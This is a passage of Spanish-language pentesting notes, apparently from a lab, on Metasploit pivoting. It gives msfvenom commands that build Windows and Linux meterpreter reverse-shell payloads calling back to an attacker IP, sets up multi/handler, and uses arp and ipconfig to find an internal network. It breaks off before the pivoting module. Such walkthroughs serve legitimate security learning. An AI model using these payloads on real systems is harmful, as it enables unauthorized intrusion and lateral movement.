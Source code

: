 
Lo primero que debemos hacer es ejecutar Metasploit con ``msfconsole`` para hacer uso del módulo ``multi/handler`` nuevamente.

- **``use multi/handler``**

Simplemente establecemos una **Reverse Shell** con la **máquina intermedia**, ya sea utilizando un archivo ``.exe`` o abusando del ``Eternal Blue`` que es factible en este caso ya que la máquina intermedia es una *Windows 7*. 

---

En mi caso voy a meter un **archivo ejecutable** en la máquina **Windows** para establecer la conexión y **ganar acceso** a ella.

- **``msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.194 LPORT=4444 -f exe -o reverse.exe``** --> Si fuese **Windows**
- **``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.194 LPORT=4444 -f elf -b '\x00\x0a\x0d' -o reverse``** --> Si fuese **Linux**

En Metasploit modificamos el ``LHOST`` con nuestra IP de máquina atacante y el ``LPORT`` que queramos, luego **actualizamos el Payload** para que posean el mismo el del **archivo** que el del ``multi/handler``.

- **``set payload windows/x64/meterpreter/reverse_tcp``**
- **``run``**

Ahora simplemente **ejecutamos el archivo malicioso** en la **máquina intermedia** y ganaríamos acceso a ella.

![[MS 10.png]]

> Algo muy importante que tenemos que tener en cuenta es que a la hora de realizar **Pivoting** con ``Metasploit`` se debe usar ==SIEMPRE== una sesión de ``Meterpreter``.

-----

Una vez tengamos acceso a la **máquina intermedia** si realizamos un ``ipconfig`` a través del ``Meterpreter`` veremos que ahí hay otra **IP** que no conocíamos, en este caso es  la **``192.168.238.128``** que corresponde a **otra interfaz**, por lo tanto podríamos deducir que tal vez **haya otra máquina dentro de esta interfaz que antes no teníamos alcance**. Si quisieramos **buscar la IP** de la máquina que creemos que esta dentro de esa otra interfaz de red podemos hacer un ``arp -a``.

![[MS 11.png]]

![[MS 14.png]]

Ahora que conseguimos esta información presionamos ``CTRL+Z`` para **salir de la sesión actual** de Metasploit. En cualquier momento podemos volver haciendo uso de ``sessions -l`` y luego ``sessions ID``.

![[MS 12.png]]

----

Una vez estemos fuera de la sesión que posee acceso a la máquina intermedia, vamos a utilizar uno de los **módulos de Pivoting** que posee **Metasploit**, ya que esta herramienta posee muchos para diferentes escenarios.
